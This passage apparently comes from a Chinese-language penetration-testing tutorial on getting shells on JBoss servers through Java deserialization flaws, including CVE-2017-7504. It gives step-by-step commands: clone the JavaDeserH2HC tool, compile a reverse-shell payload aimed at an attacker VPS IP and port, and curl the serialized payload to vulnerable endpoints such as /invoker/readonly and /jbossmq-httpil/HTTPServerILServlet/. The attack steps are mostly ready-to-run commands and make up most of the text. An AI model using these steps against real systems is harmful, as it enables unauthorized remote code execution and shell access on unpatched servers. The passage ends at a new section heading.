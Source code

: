 ![image.png](jboss_getshell.assets/1592147076_5ee63c84e4f89.png!small)

3、明确目标`jboss`可能存在此漏洞以后,接下来借助`JavaDeserH2HC`来完成整个利用过程

```
git clone https://github.com/joaomatosf/JavaDeserH2HC.git 
cd JavaDeserH2HC/
```

4、首先尝试直接反弹`shell`,利用`JavaDeserH2HC`创建好用于反弹`shell`的 payload,如下

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap vps的ip:端口 
```

4、然后尝试利用`curl`发送`payload`到目标机器上执行后，发现vps已成功接弹回的shell

```
curl http://www.target.net/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![image.png](jboss_getshell.assets/1592147096_5ee63c98aa9aa.png!small)

### JBOSSMQ JMS 集群反序列化漏洞（CVE-2017-7504）

#### 漏洞描述

`JBoss AS 4.x`及之前版本中，`JbossMQ`实现过程的`JMS over HTTP Invocation Layer`的`HTTPServerILServlet.java`⽂件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利⽤该漏洞执⾏任意代码。

#### 影响版本

`JBoss AS 4.x`及之前版本

#### 漏洞利用

1、首先验证目标`jboss`是否存在此漏洞,直接访问 

```
poc url : http://10.211.55.7:8080/jbossmq-httpil/HTTPServerILServlet/
```

2、如果返回以下内容,则说明目标的`jboss`可能存在此漏洞,而后继续尝试进一步利用即可
![image.png](jboss_getshell.assets/1592147108_5ee63ca4aae28.png!small)3、此处我们使用`JavaDeserH2HC`工具来利用该漏洞,尝试直接弹回一个目标系统的原生 `cmd shell`

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 10.211.55.16:53
curl http://10.211.55.7:8080/jbossmq-httpil/HTTPServerILServlet/ --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![image.png](jboss_getshell.assets/1592147117_5ee63cad54eb8.png!small)

### JBoss JMXInvokerServlet 反序列化漏洞 (CVE-2015-7501)

